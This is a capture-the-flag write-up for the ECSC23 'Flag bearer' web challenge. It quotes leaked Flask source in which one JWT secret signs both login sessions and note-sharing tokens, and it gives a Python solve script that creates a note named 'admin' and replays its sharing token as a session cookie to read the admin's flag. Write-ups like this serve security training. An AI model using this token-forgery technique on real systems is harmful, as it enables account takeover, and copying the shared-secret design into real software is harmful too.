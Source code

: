 # Flag bearer

We are given an URL to a web app, which allows to create and share notes. We know that the flag is in admin's notes.

By modifying requests and triggering errors we can leak parts of the source code:

```py
def getuser():
    if "session" not in request.cookies:

        return None

    return jwt.decode(request.cookies.get("session"), SECRET, algorithms="HS256")["name"]
```

```py

@app.route("/notes", methods=["GET", "POST"])
def notes():
    if "session" not in request.cookies:
        return render_template("index.html", error="User is not logged in")

    u = db.getuser(getuser())
    if u == None:
        return render_template("index.html", error="Invalid user? WTF how did you log in.")

    if request.method == "GET":
        return render_template("notes.html", user=u)
 

    name = request.json['name']
    content = request.json['content']

    for user in db.users:
        for note in user.notes:
            if note.name == name:
                return "Duplicated note name", 401

    u.notes.append(Note(name, content))
```

```py
@app.route("/login", methods=["GET", "POST"])
def login():
    if request.method == "GET":
        return render_template("login.html")

    username = request.form['username']
    password = request.form['password']

    try:
        if db.login_correct(username, password):
            r = make_response(redirect("/"))
            r.set_cookie("session", jwt.encode({"name": username}, SECRET))

```



We can see that the same JWT secret is used for both authentication and sharing notes. That's very useful to forge admin's session token.
We can do this by creating a note named `admin`, and setting the received sharing token as the `session` cookie.

solve.py:
```py
import requests
import re

s = requests.Session()
url = 'https://flag-bearer.ecsc23.hack.cert.pl'

s.post(f'{url}/login', data={'username': 'aaa', 'password': 'aaa'})
s.post(f'{url}/notes', json={'name': 'admin', 'content': ''})

r = s.get(f'{url}/notes')
token = re.findall(r'id="admin"[\s\S]+?<code>([a-zA-Z0-9.\-_]+)<\/code>', r.text, re.M)[0]
print(token)

r = requests.get(f'{url}/notes', cookies={'session': token})
flag = re.findall(r'ecsc23\{.+\}', r.text)[0]
print(flag)
```